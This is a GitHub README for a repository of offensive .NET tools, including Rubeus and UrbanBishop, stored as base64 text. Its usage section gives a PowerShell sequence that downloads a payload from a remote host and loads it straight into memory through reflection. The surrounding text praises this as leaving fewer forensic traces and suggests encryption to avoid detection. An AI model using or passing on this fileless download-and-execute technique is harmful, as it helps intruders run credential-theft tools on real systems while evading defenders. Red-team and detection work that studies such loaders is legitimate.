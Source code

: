 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading. For this to work the host has to be able to access githubusercontent.com. The reason for adding the Powershell v1.0 is because syswow64 lets you run 32 bit system executables from 64 bit code. Sysnative lets you run 64 bit system executables from 32 bit code.

# Tools currently available:
- ProcessManager
- Rubeus
- UrbanBishop

# Usage:
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

The above removes steps of downloading the binary and converting it into Assembly. Removes the binary from going on-disk and straight into memory. Operationally its a little bit cleaner on system forensics - If network capture is enabled on the environment the technique can be identified. You can add some sort of encryption to avoid detection.

*Disclaimer: The things done with the tools in this repository are only liable with the offending operator(s).*
